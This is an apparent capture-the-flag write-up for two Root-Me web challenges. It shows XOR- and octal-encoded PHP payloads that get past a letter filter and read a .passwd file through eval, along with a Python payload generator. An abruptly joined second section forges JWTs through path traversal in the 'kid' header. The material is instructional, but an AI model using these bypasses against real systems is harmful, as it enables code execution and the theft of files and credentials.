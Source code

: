 
# PHP - Eval  ( Non-alphanumeric PHP code )

Challenge category : WEB-SERVER \
Difficulty : MEDIUM \
Links :  https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval / https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

For this challenge there are 2 solutions , but in this writeup I will show only the first one 

Let's analyze the challenge  : 
```
Statement
Find a vulnerability in this service and exploit it.

Note : the flag is in .passwd file.
```
Source code : 
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```
As the index says it should be a PHP calculator , but it uses the eval() function to do "calculations" and this makes it vulnerable to code injection 
![](./images/1.png)
![](./images/2.png)

We can enter numbers or special characters but not letters because the input is filtered by the preg_match() function : 
```php
 if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```

There are 2 ways to bypass this filter ( as mentioned above) , in this case we will have the eval() function perform XOR operations on special characters 
```
RAW   |  BINARY
/     =  00101111
            ⊕
_     =  01011111  

p     =  01110000

In PHP  XOR=^ so ('/' ^ '_')= 'p'

Example: 
p = ('/'^'_')
a = ('!'^'@')
s = ('('^'[')
s = ('('^'[')
w = ('('^'_')
d = ('$'^'@')

passwd   =  ('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@')
```
Let's try entering the string above into the input field

![](./images/3.png)

It returned `passwd` 

Now let's try reading the contents of the `.passwd` file (which contains the flag as mentioned in the challege description) \
To do this we need to convert the `file_get_contents('.passwd')` function to XOR operations , I wrote a python script (don't mind the not-so-clean code ) : 

```python
import re
charset = ['!','$','%','&','/','(',')','=','{','[',']','}',',',';','.',':','-','_','+','*','~','#','\'','@','<','>','|','?','^',' ']

plain_text="file_get_contents('.passwd')"
pt_dict=[*plain_text]
payload=f""
fnd=0
for letter in pt_dict:
    fnd=0
    if not re.match('[a-zA-Z]',letter):
        if letter == '\'' : 
            letter='\\\''
        if letter == '"' : 
            letter = '\\"'
        payload+=f"'{letter}'."
        continue
    for char1 in charset :
        if fnd:
            fnd=1
            break
        for char2 in charset:
            if ord(char1)^ord(char2)==ord(letter):
                #print (f"{letter} : ('{char1}'^'{char2}'). \n ")
                payload+=f"('{char1}'^'{char2}')."
                fnd=1
                break
        
print (payload)
```
The script output will be : `('&'^'@').(')'^'@').(','^'@').('%'^'@').'_'.('['^'<').('%'^'@').('/'^'[').'_'.('='^'^').('/'^'@').('.'^'@').('/'^'[').('%'^'@').('.'^'@').('/'^'[').('('^'[').'('.'\''.'.'.('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@').'\''.')'` \
Let's try entering the string above into the input field

![](./images/4.png)

As we can see the function is not executed but is printed , so let's try another way of executing a function : `(function)(arg)` so `(file_get_contents)(.passwd)`
```
(('&'^'@').(')'^'@').(','^'@').('%'^'@').'_'.('['^'<').('%'^'@').('/'^'[').'_'.('='^'^').('/'^'@').('.'^'@').('/'^'[').('%'^'@').('.'^'@').('/'^'[').('('^'['))('.'.('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@'))
```

![](./images/5.png)

Great ! it works. ✅


\ 
\
\
The other method is similar but uses octal encoding of characters, it is easier but I like more difficult methods 😜


```
 "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\56\160\141\163\163\167\144")
 ```






\
\
\
\
\
\
\

```
Cookie: session=eyJhbGciOiJIUzI1NiIsImtpZCI6ImI5MDFiYjI0LTcwMGItNGNjNi1hNzFhLWNiMjA3YWI2MTMxMyIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QiLCJpYXQiOjE2OTM3MjY5MTV9.GMHoWnEW4uwXc7bF7LwjsULTvbPG16CTm_KyjCp-Jfw
```
The server responds with a json 
```
{"Unauthorized":"You are not admin !"}
```
We try to decode the token from base64 (using https://jwt.io/#debugger-io):
![](/images/4.png)

The first attempt made was to try to crack the token signing key with HashCat or John , but unfortunately I did not get any results, so let's take a closer look at the decoded token and notice a parameter in the header : 
```
"kid": "b901bb24-700b-4cc6-a71a-cb207ab61313"
```

Kid stands for Key ID ( https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4 ) \
```
4.1.4.  "kid" (Key ID) Header Parameter

   The "kid" (key ID) Header Parameter is a hint indicating which key
   was used to secure the JWS.  This parameter allows originators to
   explicitly signal a change of key to recipients.  The structure of
   the "kid" value is unspecified.  Its value MUST be a case-sensitive
   string.  Use of this Header Parameter is OPTIONAL.

   When used with a JWK, the "kid" value is used to match a JWK "kid"
   parameter value.
```
Let us try playing with the KID parameter and create a token by entering `test` in the KID parameter and `secret` for the token signature key
![](/images/5.png)

We send the request with the token modified with Burp's Repeater
![](/images/6.png)

and we notice that the KID is not stored in a database but retrieves a file in the path `keys/[KID_FILENAME]`,so test if the file containing the signature key is readable by going to  http://challenge01.root-me.org:59081/keys/b901bb24-700b-4cc6-a71a-cb207ab61313 but we get 404 response 

At this point we know that the signature key is read from a file so let's try entering the path to a file we know : 
![](/images/2.png)

for example `static/challs/htmllecture.html`
![](/images/7.png)

let's try entering the file path with a Path Traversal `../static/challs/htmllecture.html` and as the signature key the contents of `htmllecture.html` so : `FLAG: ROUTEMI{c_le_premier_chall}`
![](/images/8.png)
![](/images/9.png)

There is a filter that removes `../` so we try to bypass it using `....//`
![](/images/10.png)
![](/images/11.png)

Great the game is done !!!








